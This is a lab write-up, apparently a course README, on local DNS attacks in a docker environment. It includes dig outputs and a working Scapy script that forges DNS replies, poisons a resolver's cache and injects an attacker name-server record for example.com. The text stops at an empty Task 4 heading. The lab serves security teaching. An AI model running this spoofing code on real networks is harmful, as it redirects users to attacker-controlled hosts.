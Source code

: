 # Local DNS Lab
In this lab we are going to launch a local DNS attack. The network structure of the docker containers in this lab is shown below:
 ![a](/screenshots/net.png)

Here we have a local DNS server running bind9, a victim which uses the local DNS server, an attacker and a name server which is in control of the attacker.
Bind is configured to forward all the queries about domain `attacker32.com` to the attacker name server.

On the attacker nameserver we have to zones one for `attacker32.com` and one for `example.com`.

## Task 0: Testing the setup
first let's test that the user can connect to the local dns server and the local dns server can correctly forward the query to the attacker nameserver; For these we run the following dig command from the user container:

```bash
root@2f3d17df9e37:/# dig ns.attacker32.com

; <<>> DiG 9.16.1-Ubuntu <<>> ns.attacker32.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 10131
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 34b9abbeb6398d9b01000000614599962dd8316e6ec28230 (good)
;; QUESTION SECTION:
;ns.attacker32.com.             IN      A

;; ANSWER SECTION:
ns.attacker32.com.      259200  IN      A       10.9.0.153

;; Query time: 7 msec
;; SERVER: 10.9.0.53#53(10.9.0.53)
;; WHEN: Sat Sep 18 07:47:34 UTC 2021
;; MSG SIZE  rcvd: 90
```

We see that from server `10.9.0.53`(local DNS server ) we have an A record containing the IP address of attacker name server `10.9.0.153`.

Now let's dig `example.com`

```bash
root@2f3d17df9e37:/# dig www.example.com  

; <<>> DiG 9.16.1-Ubuntu <<>> www.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 54197
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 8096dab70d3d55cf010000006145a9f48b5c8ff285088252 (good)
;; QUESTION SECTION:
;www.example.com.               IN      A

;; ANSWER SECTION:
www.example.com.        86400   IN      A       93.184.216.34

;; Query time: 1396 msec
;; SERVER: 10.9.0.53#53(10.9.0.53)
;; WHEN: Sat Sep 18 08:57:24 UTC 2021
;; MSG SIZE  rcvd: 88

root@2f3d17df9e37:/# dig @ns.attacker32.com www.example.com

; <<>> DiG 9.16.1-Ubuntu <<>> @ns.attacker32.com www.example.com
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 13256
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: ac4354402e1428ef010000006145aa08dee4f72f0dad03ea (good)
;; QUESTION SECTION:
;www.example.com.               IN      A

;; ANSWER SECTION:
www.example.com.        259200  IN      A       1.2.3.5

;; Query time: 0 msec
;; SERVER: 10.9.0.153#53(10.9.0.153)
;; WHEN: Sat Sep 18 08:57:44 UTC 2021
;; MSG SIZE  rcvd: 88
```

when we ask the local dns server about the `example.com`, because it's cache is empty; it would reach out to one of the root servers and do a recursive search to finally get the IP address of the authoritative nameserver of `example.com`; then it would ask that name sever about the `example.com` domain and get the actual IP address which is `93.184.216.34`.

now when we ask the attacker name server, which we normally would not; we get the attacker defined IP of `1.2.3.5`.

## Task 1
In this task we are going to sniff the local network for any dns queries that are about `example.com`; Now when victim digs the `www.example.com`; it sends a DNS query to the local dns server. Now if we are quicker than the local dns, we can forge a respond and send this to the victim before the local DNS does; this way we can forward victim to any server we like whenever he/she wants to visit `example.com`; to this end we write the following Scapy script:

```python
NS_NAME = "example.com"
def spoof_dns(pkt):
    if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
        print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))
        # Create an IP object
        ip = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        # Create a UDP object
        udp = UDP(dport=pkt[UDP].sport, sport = 53)
        # Create an aswer record
        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', ttl=259200, rdata='2.3.4.5')
        # Create a DNS object
        dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0,qr=1,qdcount=1, ancount=1,nscount=0, arcount=0, an=Anssec)
        spoofpkt = ip/udp/dns
        #
        # Assemble the spoofed DNS packet
        send(spoofpkt)

# Set the filter
myFilter = "udp and dst port 53"
pkt=sniff(iface='br-e2f3384b00c9', filter=myFilter, prn=spoof_dns)

```
In scapy, we need to build up different layers of the response packet, whenever we receive a DNS packet which queries `example.com`; this is how we assemble the response:

* In the ip and udp layers we only need to swap the ip and port number of source and destination so that we trick the victim into believing this packet has actually come from the local DNS.

* In the application layer (DNS) we need to create a type A recored for the query with a valid ttl and any IP address we like and then put this record in the answer section and finally we also need to set some flags indicating that this message is for the response of the actual sent query.

This is the script in action:

 ![a](/screenshots/task1.png)

 As you can see the first dig, gets the correct IP address, but the second dig which is after the attacker has run the script, gets the incorrect IP address.
 Note that we needed to flush the local DNS cache for this to work. This is because after the first dig, the local DNS has the correct IP in cache and it would reply faster than us to the victim and so our packet would not have any impact. To slow down the local DNS, we flush it's cache so that it needs to retrieve the IP once again, and since the last time took more than two second, we can be sure that attacker response is going to be faster.

## Task 2

In this task we are going to **poison the DNS cache**. By this we mean that instead of responding to the victim DNS query, we are going to forge a respond to the local DNS DNS query, when it tries to reach the internet and resolve the IP of an unknown domain name. 
For this task we actually can use the previous script; because in the previous script we had not specified any specific source IP in the `filter` section. This means that actually in the previous experiment in addition to attacking to victim, we also have had poisoned the DNC cache. The below screenshot verifies this:
 ![a](/screenshots/task2.png)
 At first in the dns cache ,the ip address of `example.com` is stored correctly, We then flush this cache and start the script and then dig `example.com` from the user we start the recursive DNS query algorithm of the Local DNS; the attacker sniffs 3 DNS queries, the original one from the victim, which we kindly respond to; and two others coming from local DNS trying to ask the outside world about the IP of `example.com` which we respond to those to. This as you can see results in a poisoned cache.

 ## Task 3
Now we want to have control over all the `example.com` domain not only the `www.example.com`; to this end we simply need to provide a authoritative name server for the `example.com` domain in the Authority section of DNS response, note that normally we would also add an A record for our name server in the additional section, but here this is not necessary, since in the bind9 configuration we already have an A record for `ns.attacker.com`. This is the modified parts of the script:

```python
# ...
ATTCKER_NS = 'ns.attacker32.com'
def spoof_dns(pkt):
        # ...
           # The Authority Section
        NSsec1 = DNSRR(rrname='example.com', type='NS',ttl=259200, rdata=ATTCKER_NS)
        # Create a DNS object
        dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0,qr=1,qdcount=1, ancount=1,nscount=1, arcount=0, an=Anssec, ns= NSsec1)
        # ...   
# ...
```
Note that when creating the `dns` layer we have changed `nscount` to `1` and set `an` to `NSsec1`. Below you can see the script in action:

![a](/screenshots/task3.png)
The procedure is exactly like before; note that now in the dns cache we have an NS record!

## Task 4

